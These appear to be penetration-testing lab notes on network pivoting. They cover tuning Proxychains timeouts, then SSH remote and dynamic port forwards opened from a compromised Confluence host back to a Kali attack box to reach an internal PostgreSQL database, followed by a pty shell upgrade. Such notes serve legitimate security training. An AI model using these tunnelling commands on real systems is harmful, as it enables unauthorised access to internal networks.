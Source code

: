 {% hint style="info" %}
Proxychains is by default, configured with very high time-out values. Lowering the _**tcp\_read\_time\_out**_ and _**tcp\_connect\_time\_out**_ values in the Proxychains configuration file will force time-outs on non-responsive connections more quickly, dramatically speeding up port-scanning times.

\
Upon asking an OffSec Staff member what a reasonable timeout would be, I was told around 500 should be fine.
{% endhint %}

### SSH Remote Port Forwarding

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong># Starting the SSH server on our Kali box
</strong><strong>kali@kali:~$ sudo systemctl start ssh
</strong>
# SSHing to our Kali box, setting up the remote port forward.
confluence@confluence:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
# -N for no executing remote commands, -R for the remote forward
confluence@confluence:/opt/atlassian/confluence/bin$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4

# Back on kali, we can confirm our remote port forward is listening
kali@kali:~$ ss -ntplu
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
tcp   LISTEN 0      128        127.0.0.1:2345      0.0.0.0:*
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      128             [::]:22           [::]:*

# Now we can probe port 2345 on our loopback interface as though we're probin the PostgreSQL port on PGDATABASE01 directly.
kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres
postgres=# \l
</code></pre>

### SSH Remote Dynamic Port Forwarding

{% code overflow="wrap" lineNumbers="true" %}
```bash
# Using the same -R option as before, we setup the single port we want to create a remoete dynamic port forward via.
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4

# Back on Kali, confirm this was setup
kali@kali:~$ ss -plunt
Netid State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process
tcp   LISTEN  0       128          127.0.0.1:9998        0.0.0.0:*     users:(("sshd",pid=939038,fd=9))
tcp   LISTEN  0       128            0.0.0.0:22          0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN  0       128              [::1]:9998           [::]:*     users:(("sshd",pid=939038,fd=7))
tcp   LISTEN  0       128               [::]:22             [::]:*     users:(("sshd",pid=181432,fd=4))

```